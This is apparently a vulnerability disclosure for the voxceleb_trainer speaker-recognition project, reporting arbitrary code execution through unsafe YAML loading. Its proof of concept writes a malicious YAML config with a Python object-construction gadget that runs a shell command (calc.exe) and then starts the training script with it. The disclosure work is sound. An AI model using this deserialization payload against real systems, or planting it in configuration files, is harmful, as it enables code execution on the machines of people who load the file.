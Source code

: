 # Description

`voxceleb_trainer` contains the framework for training speaker recognition models described in the paper 'In defence of metric learning for speaker recognition', which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

```python
import os
#os.system('git clone https://github.com/clovaai/voxceleb_trainer.git')
os.chdir('voxceleb_trainer/')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""

open('config.yml','w+').write(payload)
os.system('python3 trainSpeakerNet.py --config config.yml')
```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
